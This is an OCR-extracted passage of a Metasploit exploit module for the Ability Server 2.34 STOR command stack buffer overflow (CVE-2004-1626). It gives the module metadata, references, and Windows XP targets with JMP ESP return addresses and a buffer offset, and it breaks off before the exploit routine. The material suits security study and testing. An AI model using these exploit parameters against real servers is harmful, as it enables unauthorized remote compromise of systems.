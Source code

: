 ```
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::Ftp

 def initialize(info = {})
    super(update_info(
      info,
      'Name'            => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
      'Description'     => %q{
        This module exploits a stack-based buffer overflow in Ability Server 2.34.
        Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
        which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

        The vulnerability has been confirmed on version 2.34 and has also been reported
        in version 2.25 and 2.32\. Other versions may also be affected.},
      'License'         => MSF_LICENSE,
      'Author'          =>
        [
          'muts',            # Initial discovery
          'Dark Eagle',      # same as muts
          'Peter Osterberg', # Metasploit
          'Ruby (@Rubyfu)',  # Just explain the module
        ],
      'References'      =>
        [
          [ 'CVE', '2004-1626' ],
          [ 'OSVDB', '11030'],
          [ 'EDB', '588'],
          ['URL', 'http://rubyfu.net'] # Just explain the module
        ],
      'Platform'       => %w{ win },
      'Targets'        =>
        [
          [
            'Windows XP SP2 ENG',
            {
              #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
              'Ret' => 0x73E32ECF,
              'Offset' => 966
            }
          ],
          [
            'Windows XP SP3 ENG',
            {
              #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully patched)
              'Ret' => 0x7E429353,
              'Offset' => 966
            }
          ],
        ],
      'DefaultTarget'   => 0,
      'DisclosureDate' => 'Oct 22 2004'
    ))

    register_options(
```